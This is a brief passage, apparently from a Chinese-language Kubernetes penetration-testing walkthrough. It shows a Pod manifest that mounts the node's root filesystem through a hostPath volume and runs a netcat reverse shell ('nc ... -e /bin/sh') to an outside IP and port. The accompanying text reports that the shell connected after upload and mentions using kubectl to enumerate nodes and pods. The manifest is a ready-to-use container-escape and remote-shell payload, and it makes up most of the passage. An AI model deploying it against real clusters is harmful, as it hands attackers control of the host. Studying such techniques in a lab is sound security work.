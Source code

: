 ![在这里插入图片描述](assets/1711471683-e999a96b52942c5eefe270859babedbb.png)

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 192.168.125.130 7777 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

点击上传之后反弹成功  
![在这里插入图片描述](assets/1711471683-fa97de1688faad2e0aacef9995fd444b.png)  
当然还可以使用 kubectl  
比如查询 nodes 和 pods
